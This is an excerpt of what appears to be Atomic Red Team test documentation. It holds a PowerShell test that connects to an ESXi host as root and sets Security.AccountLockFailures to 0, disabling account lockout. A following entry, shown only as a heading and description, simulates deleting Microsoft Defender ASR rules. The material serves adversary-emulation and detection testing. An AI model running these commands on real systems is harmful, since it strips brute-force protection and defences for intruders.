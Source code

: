 **auto_generated_guid:** 091a6290-cd29-41cb-81ea-b12f133c66cb





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| vm_host | Specify the host name of the ESXi Server | string | atomic.local|
| vm_user | Specify the privilege user account on ESXi Server | string | root|
| vm_pass | Specify the privilege user password on ESXi Server | string | pass|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-PowerCLIConfiguration -InvalidCertificateAction Ignore -ParticipateInCEIP:$false -Confirm:$false 
Connect-VIServer -Server #{vm_host} -User #{vm_user} -Password #{vm_pass}
Get-AdvancedSetting -Entity #{vm_host} -Name 'Security.AccountLockFailures' | Set-AdvancedSetting -Value '0' -Confirm:$false
Disconnect-VIServer -Confirm:$false
```




#### Dependencies:  Run with `powershell`!
##### Description: Check if VMWARE PowerCLI PowerShell Module is installed.
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name VMware.PowerCLI -ListAvailable
if (-not $RequiredModule) {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name VMware.PowerCLI -Confirm:$false
```




<br/>
<br/>

## Atomic Test #51 - Delete Microsoft Defender ASR Rules - InTune
This test simulates the deletion of the ASR rules loaded by Microsoft Defender using the registry. Depending on the deployment, rules can be pushed either using GPO or InTune, This test simulates an InTune-based rules deployment.

**Supported Platforms:** Windows
